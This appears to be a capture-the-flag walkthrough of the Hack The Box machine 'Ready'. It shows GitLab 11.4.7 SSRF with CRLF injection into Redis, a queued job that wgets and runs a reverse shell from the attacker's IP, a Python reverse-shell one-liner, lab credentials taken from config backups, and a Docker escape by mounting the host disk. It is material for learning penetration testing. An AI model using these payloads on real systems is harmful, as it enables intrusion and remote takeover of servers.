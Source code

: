Ready
=====

[![](Ready/Untitled.png)](Ready%203898d80dd19740d8a157a04d052e2389/Untitled.png)

Starting with port scan nmap, it found 2 ports.

[![](Ready/Untitled%201.png)](Ready%203898d80dd19740d8a157a04d052e2389/Untitled%201.png)

Performing web directory scan :

[![](Ready/Untitled%202.png)](Ready%203898d80dd19740d8a157a04d052e2389/Untitled%202.png)

We can make a SSRF using Web Hooks parse IPV6 using vulnerability Gitlab
remote code execution.

[https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)

Note that, the version of git lab is the same version of CVE.

[![](Ready/Untitled%203.png)](Read/Untitled%203.png)

Import a new project with git repo url and make request using .get, if
that doesn't work, try using other methods written in CVE.

[![](Ready/Untitled%204.png)](Ready/Untitled%204.png)

Making request using .get we received the connection.

``` {#03d0f689-f93b-469c-81fb-ece4d3ee270a .code}
git://10.10.10.14.185:8881/%0D%0Atest%0D%0Ablah.git
```

[![](Ready/Untitled%205.png)](Ready/Untitled%205.png)

We can add newlines using the CRLF injection and move on into creating a
payload for the RCE.

So prepare your burp suite to intercept requisitions.

[![](Ready/Untitled%206.png)](Ready/Untitled%206.png)

Change names and try again to verify repeater.

[![](Ready/Untitled%207.png)](Ready/Untitled%207.png)

Now let's try reverse-shell payload, just wait a short time to receive
the connection.

Create python reverse shell code and start python server to perform wget
in the machine.

In the local of the script:

``` {#a5357765-c2dd-45f5-b879-650cdbbf1a8e .code}
python3 -m http.server PORT
```

[![](Ready/Untitled%208.png)](Ready/Untitled%208.png)

### Let's to privilege escalation {#0b39849f-9209-45c5-94f8-4df528eea261}

Getting shell full tty:

[![](Ready/Untitled%209.png)](Ready/Untitled%209.png)

Script that the machine get in request →

[![](Ready/Untitled%2010.png)](Ready/Untitled%2010.png)

User flag in dude home folder.

[![](Ready/Untitled%2011.png)](Ready/Untitled%2011.png)

Don't exists sudo -l command, the system is Linux Gitlab ubuntu 5.4.0.

[![](Ready/Untitled%2012.png)](Ready/Untitled%2012.png)

Searching i found this archive localized at
/opt/backup/docker-compose.yml. This file contains critical information
about the server.

[![](Ready/Untitled%2013.png)](Read/Untitled%2013.png)

Possible ways to privele escalation

[https://book.hacktricks.xyz/pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

[https://redis.io/](https://redis.io/)

### Entering in database Gitlab {#628ca4fb-74c2-4002-a07a-6151495d0b33}

[![](Read/Untitled%2014.png)](Ready/Untitled%2014.png)

[![](Ready/Untitled%2015.png)](Ready/Untitled%2015.png)

Commands to navigate in database.

``` {#e93afb5d-6a75-40e1-8719-0b935fc9e6d7 .code}
\l - list databases
\dt - connect
SELECT * FROM name;
```

[![](Ready/Untitled%2016.png)](Ready/Untitled%2016.png)

Blowfish is hard difficult to crack.

Analyzing my annotations i tried use the smtp\_password and work with
success login in root account.

The password are available at /opt/backup/gitlab.rb.

[![](Ready/Untitled%2017.png)](Ready/Untitled%2017.png)

Create temp root folder and mount sda2 in it.

``` {#d6bff1c8-4768-4291-a7d4-be6487302e74 .code}
mkdir /tmp/root 
mount /dev/sda2 /tmp/root
cat /tmp/root/root.txt
```

[![](Ready/Untitled%2018.png)](Ready/Untitled%2018.png)

### Commands {#5adf5259-e936-41be-b86a-e218201bef3d}

``` {#2c6ccbef-b953-4099-8c13-52d135c80207 .code}
10.10.10.220 
git://[0:0:0:0:0:ffff:10.10.14.185]:8881/%0D%0Atest%0D%0Ablah.git
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/test/srrf.git
stresser

 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\"
:[\"class_eval\",\"open(\'|whoami |wget http://10.10.14.185:7773/reverse.py |python3 
reverse.py|python reverse.py').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\"
:\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403
.8129568}"

 exec
 exec
 exec

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.185",7773));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2
(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

gitlab/gitlab-rails/production.log:Started GET "/recoverpassword" for 10.10.14.185 at 
2021-04-26 17:36:04 +0000
gitlab/gitlab-rails/production.log:  Parameters: {"utf8"=>"✓", "authenticity_token"=>
"[FILTERED]", "new_user"=>{"name"=>"admin", "username"=>"admina", 
"email"=>"admin@admin.con", "email_confirmation"=>"admin@admin.con", 
"password"=>"[FILTERED]"}}

===========================================================================================
PATH variables
/opt/gitlab/embedded/lib/ruby/gems/2.4.0/bin
/opt/gitlab/bin
/opt/gitlab/embedded/bin

root@599cf120c7bc

DATABASES
postgreSQL

/var/opt/gitlab/postgresql/data
/var/opt/gitlab/postgresql"
gitlab-psql
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
mattermost
# mattermost['sql_data_source'] = "mmuser:mostest@tcp(dockerhost:3306)/mattermost_test?
charset=utf8mb4,utf8"

YG65407Bjqvv9A0a8Tm_7w
volumes:
      - './srv/gitlab/config:/etc/gitlab'
      - './srv/gitlab/logs:/var/log/gitlab'
      - './srv/gitlab/data:/var/opt/gitlab'
      - './root_pass:/root_pass'
/var/opt/gitlab/redis/redis.conf
===========================================================================================
DB USERS
Administrator
email                                        | admin@example.com
encrypted_password                           | $2a$10$zzun9kmrHMdwsJZKTmwn9OZddFjwrhbaXx
                                                                                                3b2eb9l2g.1LrjZo0V2
username                                        root
notification_email                           | admin@example.com

incoming_email_token                         | 64e48z64oohhrqhlgfkqmlgxg

/opt/gitlab/embedded/bin/redis-server
```

References
[https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)[https://docs.gitlab.com/omnibus/settings/database.html](https://docs.gitlab.com/omnibus/settings/database.html)[https://www.w3resource.com/PostgreSQL/connect-to-postgresql-database.php](https://www.w3resource.com/PostgreSQL/connect-to-postgresql-database.php)[https://chartio.com/resources/tutorials/how-to-list-databases-and-tables-in-postgresql-using-psql/](https://chartio.com/resources/tutorials/how-to-list-databases-and-tables-in-postgresql-using-psql/)[https://docs.gitlab.com/ee/administration/operations/rails\_console.html](https://docs.gitlab.com/ee/administration/operations/rails_console.html)[https://www.postgresqltutorial.com/postgresql-show-tables/](https://www.postgresqltutorial.com/postgresql-show-tables/)
